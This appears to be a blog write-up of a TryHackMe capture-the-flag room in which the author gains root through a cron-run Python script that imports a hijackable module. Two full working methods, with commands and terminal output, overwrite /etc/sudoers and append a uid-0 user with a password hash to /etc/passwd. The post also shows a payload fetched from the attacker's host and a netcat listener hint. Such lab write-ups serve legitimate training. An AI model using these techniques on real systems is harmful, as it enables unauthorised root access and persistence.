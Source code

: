 ```yaml
---
layout: post
title:  "THM: Tribute et al"
date:   2021-05-24 20:30:00 +1000
category: hacking
---
```


## Updates
I've just done Knife on HTB; no writeup obviously - it's only a day old. I also finished [MusicalStego](https://tryhackme.com/room/musicalstego) which I can barely remember even starting, and then I did Tribute, which I don't remember joining. 

I'm not going to write much, just a brief mention about [Tribute](https://tryhackme.com/room/tributeqf). 

The root part takes advantage of a python script running on a one minute cron job as root. Here's the entry from *pspy*:

>2021/05/24 04:14:01 CMD: UID=0    PID=26303  | /bin/sh -c python3 /home/meaghyn/.noises/.noises.py

Now, the content is basically this:

>import socket  
import sounds  
print("creak")  

Pretty basic, no? Anyway, the maker seems to have intended for you to use this to launch a reverse shell. One of the questions says:

>What needs to be running to make .noises.py run without errors?

A hint given is:

>nc -nvklp 1337

And the answer it wants is:

>listener

I'm sorry, but that's ridiculous. The cron job (and hence the script) already runs very happily every 60 seconds without errors; no listener required. And quite frankly we don't need a listener to get root either. Here are two alternative methods, using *sounds.py*. In version 1, we add our user to the sudoers group:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/tributeqf]
└─# cat sounds.py                                                                       
import os
os.system('echo "meaghyn ALL=(root) NOPASSWD: ALL" > /etc/sudoers')
{% endhighlight %}

And on the box:

{% highlight shell %}
wget http://10.9.10.123:9090/sounds.py
--2021-05-24 04:29:43--  http://10.9.10.123:9090/sounds.py
Connecting to 10.9.10.123:9090... connected.
HTTP request sent, awaiting response... d200 OK
Length: 78 [text/x-python]
Saving to: ‘sounds.py’

sounds.py           100%[===================>]      78  --.-KB/s    in 0s      

2021-05-24 04:29:43 (14.5 MB/s) - ‘sounds.py’ saved [78/78]
meaghyn@ubuntu:~/.noises$ date
date
Mon May 24 04:29:49 PDT 2021
meaghyn@ubuntu:~/.noises$ sudo -l
sudo -l
[sudo] password for meaghyn: meaghyn

Sorry, user meaghyn may not run sudo on ubuntu.
meaghyn@ubuntu:~/.noises$ date
date
Mon May 24 04:30:01 PDT 2021
meaghyn@ubuntu:~/.noises$ sudo -l
sudo -l
User meaghyn may run the following commands on ubuntu:
    (root) NOPASSWD: ALL
meaghyn@ubuntu:~/.noises$ sudo su
sudo su
root@ubuntu:/home/meaghyn/.noises# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Mon May 24 04:30:13 PDT 2021
root@ubuntu:/home/meaghyn/.noises#
{% endhighlight %}

Boom, roasted. In version 2 we use *sounds.py* to add *root2* to /etc/passwd:

{% highlight shell %}
meaghyn@ubuntu:~/.noises$ cat sounds.py
cat sounds.py
import os
os.system('echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd')
meaghyn@ubuntu:~/.noises$ su root2 
su root2
Password: mrcake

root@ubuntu:/home/meaghyn/.noises# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Mon May 24 04:21:19 PDT 2021
root@ubuntu:/home/meaghyn/.noises# cd /root
cd /root
root@ubuntu:~#
{% endhighlight %}

So there we go; root two ways and no listener required. There's almost certainly an SSH method available too; write your public key to authorized_keys for root or something. When you've got root code execution, the world is your oyster.
